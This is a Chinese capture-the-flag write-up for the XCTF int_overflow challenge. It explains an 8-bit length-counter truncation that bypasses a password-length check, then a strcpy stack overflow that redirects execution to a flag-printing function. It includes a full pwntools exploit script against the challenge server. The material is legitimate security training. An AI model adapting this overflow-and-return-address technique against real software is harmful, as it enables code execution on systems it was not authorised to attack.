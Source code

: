 # 攻防世界 int_overflow

**考察的是整数范围溢出加栈溢出**

![image-20210303182419977](img/1.png)

通过我们先通过file去看文件是什么类型，然后使用checksec去检查文件的保护。然后使用ida打开文件。

**先查看main函数**

![image-20210303180344634](img/2.png)

就是一个登录操作。然后去跟进`login`函数

![image-20210303180454286](img/3.png)

这里buf变量最多读0x199的字节。然后在跟进`check_passwd`函数

![image-20210303180626975](img/4.png)

可以看到v3变量的数据类型是`unsigned __int` 而这个数据类型是8bit 0-255

当我们输入256的时候就会让v3改变成1。所以我们满足>3u || <8u这个条件就需要让`v3=259-264`这里解释一下为什么不行直接输入3-8字节的内容。

因为我们需要在`strcpy`进行栈溢出，所以需要的字节肯定是超过8字节的，所以就需要考虑到整数溢出。

最后利用是栈溢出覆盖成`what_is_this`的返回地址，因为`dest`的变量长度是14。

![image-20210303181431280](img/5.png)

所以我们就可以构造exp

```python
from pwn import *
io = remote("111.200.241.244", 38536)
cat_flag_addr = 0x804868B
io.sendlineafter("Your choice:", "1")
io.sendlineafter("your username:", "Firebasky")
io.recvuntil("your passwd:")
payload = b'a' * 0x14 + b'aaaa' +p32(cat_flag_addr)+b'a'*234
io.sendline(payload)
io.recv()
io.interactive()
```

需要注意后面的234是通过`262-0x14-4-4`

```
第一次-4的原因是因为程序的32的位的，而程序在覆盖函数返回地址之前会进行一次出栈的操作，出栈数据大小 4 字节，即覆盖之前还需将这 4 字节覆盖了才能实现跳转指向 what_is_this 函数。
第二次-4是因为p32()是4个字节。
```

也可以使用（`259~264`)-28=`231~236` 不能等于236 

![image-20210303182340370](img/6.png)
